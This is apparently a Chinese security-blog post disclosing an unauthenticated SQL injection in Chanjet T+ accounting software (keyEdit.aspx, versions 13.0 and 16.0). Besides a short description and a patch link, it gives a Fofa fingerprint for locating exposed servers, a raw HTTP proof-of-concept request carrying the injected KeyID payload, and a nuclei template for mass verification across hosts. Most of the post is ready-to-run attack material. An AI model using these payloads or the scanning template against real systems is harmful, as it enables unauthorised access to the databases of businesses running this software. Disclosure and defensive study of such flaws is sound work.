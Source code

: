 #  【新洞！】畅捷通TPlus keyEdit.aspx SQL注入漏洞   
day哥  月落安全   2024-06-12 13:55  
  
****畅捷通是用友集团的成员企业,致力于为企业提供高效、方便的解决方案。好生意是畅捷通公司的产品,能够从不同的维度帮助企业提升效率、降低成本。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/DBoCyk48rwC59icfkzNShHoR2Awfs6aYYkmpjsHziab1VxCiaAVTVQJmMfYcMN1vKiboDicB3d0AkzlGY56nCMX1gMA/640?wx_fmt=gif "")  
<table><thead><tr><th width="45">漏洞介绍</th><th width="474" style="word-break: break-all;">畅捷通TPlus keyEdit.aspx SQL注入漏洞<br/></th></tr></thead><tbody><tr><td width="45">漏洞描述</td><td style="word-break: break-all;" width="454"><p>畅捷通T+是⼀款企业管理软件，主要⾯向中⼩企业。它提供了包括财务、采购、销售、库存、⽣产制造、⼈⼒资源等在内的全⾯企业管理解决⽅案。通过畅捷通T+，企业可以实现对业务流程的数字化管理，提⾼⼯作效率，降低成本，增强企业竞争⼒。</p><p>畅捷通T+ /tplus/UFAQD/keyEdit.aspx接⼝处未对⽤⼾的输⼊进⾏过滤和校验，未经⾝份验证的攻击者可以利⽤SQL注⼊漏洞获取数据库中的信息。</p></td></tr><tr><td width="45" style="word-break: break-all;">影响产品</td><td style="word-break: break-all;" width="454">畅捷通T+</td></tr><tr><td width="45">修复方案</td><td style="word-break: break-all;" width="454">请使⽤此产品的⽤⼾尽快打补丁或更新到最新版本：https://www.chanjet.com</td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/DBoCyk48rwBdEFyIHR1EGhqLicyHSs6x4WZQjlq5DjBfRUMNB4uA26hNbzgEjKezgAQvoFW6fbjeCgIltyuWjjA/640?wx_fmt=gif "")  
  
用请尽快进行应用系统的检查，确认其中是否存在使用畅捷通T+情况。如果确认存在相关应用的使用，需要立即采取行动，因为这些应用极有可能受到漏洞影响。影响版本：畅捷通 T+ 13.0畅捷通 T+ 16.0  
  
**漏洞指纹**  
  
Fofa指纹  
  
app="畅捷通-TPlus"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DBoCyk48rwDpXhAiaTzXNyHCiabE9nfLblsibdzgHxZ8liawfDiaicjjicm6xsUTic9kkTSD6cSeh1opW7GOJhQROgpjRw/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞复现poc**  
```
GET /tplus/UFAQD/keyEdit.aspx?KeyID=1%27%20and%201=(select%20sys.fn_varbintohexstr(hashbytes(%27MD5%27,%27123456%27)))%20--&preload=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: ASP.NET_SessionId=t5b4ib4lqdfdo5h40mpp5djc
Upgrade-Insecure-Requests: 1
Priority: u=1
Pragma: no-cache

Cache-Control: no-cache
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DBoCyk48rwDpXhAiaTzXNyHCiabE9nfLbl0fCoDY5LSwMYmicKm7n7WjB2RHKvwuoKDlWpiahk25MUltf8Io33bSrA/640?wx_fmt=png&from=appmsg "")  
  
  
**nuclei批量验证脚本**  
```

id: changjietong_keyEdit_sqli

info:
  name: changjietong_keyEdit_sqli
  author: recjl
  severity: high
  description: description
  reference:
    - https://
  tags: tags

requests:
  - raw:
      - |+
        GET /tplus/UFAQD/keyEdit.aspx?KeyID=1%27%20and%201=(select%20@@version)%20--&preload=1 HTTP/1.1
        Host: {{Hostname}}
        Cache-Control: max-age=0
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Referer: http:///tplus/
        Accept-Encoding: gzip, deflate, br
        Accept-Language: zh-CN,zh;q=0.9
        Cookie: ASP.NET_SessionId=wla51k11mgrzdaydypk0muzb
        If-None-Match: W/"5b450e7e-666d"
        If-Modified-Since: Tue, 10 Jul 2018 19:52:30 GMT
        Connection: close


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - ion:u
      - type: status
        status:
          - 200
```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DBoCyk48rwDpXhAiaTzXNyHCiabE9nfLbl5F5wN94UJQicfUn3P6waFmF1mAzZuXPxxQ3qkaCKuD6v2S53zpuE7JA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
  
获取更多的网络安全热讯或者学习交流可以加入群聊！！  
  
